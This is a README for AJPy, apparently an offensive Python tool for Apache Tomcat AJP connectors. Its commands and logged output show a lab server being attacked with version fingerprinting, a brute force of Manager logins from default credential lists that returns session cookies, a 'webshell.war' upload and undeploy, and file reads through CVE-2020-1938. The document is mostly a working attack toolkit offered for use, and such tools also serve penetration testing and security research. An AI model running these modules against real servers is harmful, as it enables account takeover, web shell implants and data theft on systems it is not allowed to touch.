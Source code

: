 # Intro

AJPy aims to craft AJP requests in order to communicate with AJP connectors.

Reference documentation: https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html

# Tools

At the moment, only one tool is provided for Tomcat with the following modules:

* version fingerprint
```
$ python tomcat.py version 172.17.0.2
Apache Tomcat/8.0.35
```

* authentication bruteforce
```
$ python tomcat.py -v  bf -U tomcat_mgr_default_users.txt -P tomcat_mgr_default_pass.txt /manager/html 172.17.0.2
[2016-06-10 17:24:55.965] INFO     Attacking a tomcat at ajp13://172.17.0.2:8009/manager/html
[2016-06-10 17:24:56.017] DEBUG    testing admin:admin
[2016-06-10 17:24:56.069] INFO     Found valid credz: admin:admin
[2016-06-10 17:24:56.069] INFO     Here is your cookie: JSESSIONID=1267BE97BFB5BFAEAFAAD76EE648FE06; Path=/manager/; HttpOnly
[2016-06-10 17:24:56.069] DEBUG    testing admin:manager
[2016-06-10 17:24:56.152] DEBUG    testing admin:role1
[2016-06-10 17:24:56.154] DEBUG    testing admin:root
[2016-06-10 17:24:56.155] DEBUG    testing admin:tomcat
[2016-06-10 17:24:56.157] DEBUG    testing manager:admin
[2016-06-10 17:24:56.158] DEBUG    testing manager:manager
[2016-06-10 17:24:56.159] DEBUG    testing manager:role1
[2016-06-10 17:24:56.160] DEBUG    testing manager:root
[2016-06-10 17:24:56.161] DEBUG    testing manager:tomcat
[2016-06-10 17:24:56.164] DEBUG    testing role1:admin
[2016-06-10 17:24:56.164] DEBUG    testing role1:manager
[2016-06-10 17:24:56.165] DEBUG    testing role1:role1
[2016-06-10 17:24:56.166] DEBUG    testing role1:root
[2016-06-10 17:24:56.167] DEBUG    testing role1:tomcat
[2016-06-10 17:24:56.169] DEBUG    testing root:admin
[2016-06-10 17:24:56.170] DEBUG    testing root:manager
[2016-06-10 17:24:56.171] DEBUG    testing root:role1
[2016-06-10 17:24:56.172] DEBUG    testing root:root
[2016-06-10 17:24:56.173] DEBUG    testing root:tomcat
[2016-06-10 17:24:56.175] DEBUG    testing tomcat:admin
[2016-06-10 17:24:56.175] DEBUG    testing tomcat:manager
[2016-06-10 17:24:56.176] DEBUG    testing tomcat:role1
[2016-06-10 17:24:56.177] DEBUG    testing tomcat:root
[2016-06-10 17:24:56.178] DEBUG    testing tomcat:tomcat
[2016-06-10 17:24:56.184] INFO     Found valid credz: tomcat:tomcat
[2016-06-10 17:24:56.184] INFO     Here is your cookie: JSESSIONID=9944126F31E428B8847AFEBF2307BB09; Path=/manager/; HttpOnly
[2016-06-10 17:24:56.184] DEBUG    testing tomcat:sstic2016
[2016-06-10 17:24:56.186] DEBUG    testing both:admin
[2016-06-10 17:24:56.187] DEBUG    testing both:manager
[2016-06-10 17:24:56.188] DEBUG    testing both:role1
[2016-06-10 17:24:56.189] DEBUG    testing both:root
[2016-06-10 17:24:56.190] DEBUG    testing both:tomcat
[2016-06-10 17:24:56.191] DEBUG    Closing socket...
```

* WAR upload
```
$ python tomcat.py upload -u tomcat -p tomcat webshell.war 172.17.0.2
```

* WAR undeploy
```
$ python tomcat.py undeploy -u tomcat -p tomcat /webshell 172.17.0.2
```

* Application listing
```
$ python tomcat.py list -u tomcat -p tomcat 172.17.0.2
```

* Reading file using CVE-2020-1938
```
$ python tomcat.py read_file --webapp=examples /WEB-INF/web.xml 172.17.0.2
```


# Thanks
* @MrTchuss for the Tomcat WAR upload fix
* @kalidor for the Tomcat WAR undeploy and application listing
